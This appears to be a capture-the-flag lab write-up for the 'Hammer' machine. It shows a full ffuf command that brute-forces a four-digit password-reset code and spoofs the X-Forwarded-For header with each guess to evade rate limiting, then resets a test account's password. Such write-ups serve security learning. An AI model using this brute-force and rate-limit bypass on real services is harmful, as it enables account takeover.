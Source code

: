 ```ad-note
[Mon Aug 19 12:07:29.321098 2024] [core:error] [pid 12352:tid 139999999999992] [client 192.168.1.35:42310] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
`

# Important Part:
---

Important part about the log would be the following email:

`tester@hammer.thm`


```

# EXPLOITATION
---

Now, here the exploitation part begins, let's try to reset the password for the email we found in the log:



![](Pasted%20image%2020241118171025.png)

Once we send the request, this appears:

![](Pasted%20image%2020241118171056.png)

We have a time of `180` seconds to enter the code, we can try to brute force it in the following way:

```ad-hint

# Steps to reproduce in order to get the code
----

1. Generating the sequence from 0000 to 9999 since we have a 4 digit code:
   `seq 0000 9999 >> codes.txt` 
2. Preparing our payload using `ffuf` in the following way (We need the PHPSESSID that we found previously):
	`ffuf -w codes.txt -u "http://hammer.thm:1337/reset_password.php" -X "POST" -d "recovery_code=FUZZ&s=60" -H "Cookie: PHPSESSID=Cookie-ID" -H "X-Forwarded-For: FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -fr "Invalid" -s`

Breakdown of the code is available in the other note section.

3. Resetting the password.

# PoC
---

1. ![](Pasted%20image%2020241118171640.png)
![](Pasted%20image%2020241118171659.png)

2.  ![](Pasted%20image%2020241118172644.png)
3. ![](Pasted%20image%2020241118172701.png)

I resetted the pasword to 1234:

![](Pasted%20image%2020241118172737.png)
```